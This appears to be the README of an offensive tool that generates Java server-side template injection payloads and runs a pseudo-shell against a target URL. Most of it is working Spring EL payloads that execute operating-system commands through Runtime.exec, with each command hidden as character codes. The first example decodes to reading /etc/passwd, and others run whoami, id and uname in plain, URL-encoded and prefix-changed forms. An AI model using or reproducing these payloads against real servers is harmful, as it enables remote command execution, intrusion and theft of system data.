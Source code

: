 SSTI Payload Generator
======================
This generator is for a specific type of Java SSTI, inspired by the following [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java):

```${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}```

The string is converted into a decimal value and then concatenated together. This python script will automate that process within a interactive Cmd prompt.

USAGE (help)
=============
Use the flag `-h` or `--help` to show the help message.  
The `-u` or `--url-encode` flag is passed to url encode the payload  
The `-p` or `--prefix` flag is used to change the default prefix of the payload, the default is "$"  

Examples are found below;

SSTI Skeleton
=============

`ssti-skel.py` uses the `Cmd` library to create a looped command prompt. This directly takes input from the command line, encodes it appropriately, and sends it via `requests` to the target url (`-t`). 

If successful, the script will be a `pseudo-shell`, allowing for commands to be sent in real time. If at anytime a request fails, the script will quit.

This is a very specific usecase. But if it works, it works.

Example command:

```python3 ssti-skel.py -t 'https://example.com/path?param='```

Depending on the response, the `ssti=str(output).split('&#39;')[1].rstrip()` variable will probably have to be changed to suit the response. No clever logic was implemented for this :)

#### Example 1:

```
> python3 ssti-payload.py
Command ==> whoami
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}

Command ==> id
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}

Command ==> uname -a
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```

#### Example 2 (url encoded):
```
> python3 ssti-payload.py -u
Command ==> whoami
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28119%29.concat%28T%28java.lang.Character%29.toString%28104%29%29.concat%28T%28java.lang.Character%29.toString%28111%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28105%29%29%29.getInputStream%28%29%29%7D

Command ==> id
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28105%29.concat%28T%28java.lang.Character%29.toString%28100%29%29%29.getInputStream%28%29%29%7D

Command ==> uname -a
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28117%29.concat%28T%28java.lang.Character%29.toString%28110%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2845%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29%29.getInputStream%28%29%29%7D
```
#### Example 3: (modified prefix) (+with url encoding)

```
> python3 ssti-payload.py -p '*'
Command ==> whoami
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}

Command ==> id
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}

> python3 ssti-payload.py -u -p '#'
Command ==> uname -a
%23%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28117%29.concat%28T%28java.lang.Character%29.toString%28110%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2845%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29%29.getInputStream%28%29%29%7D
```


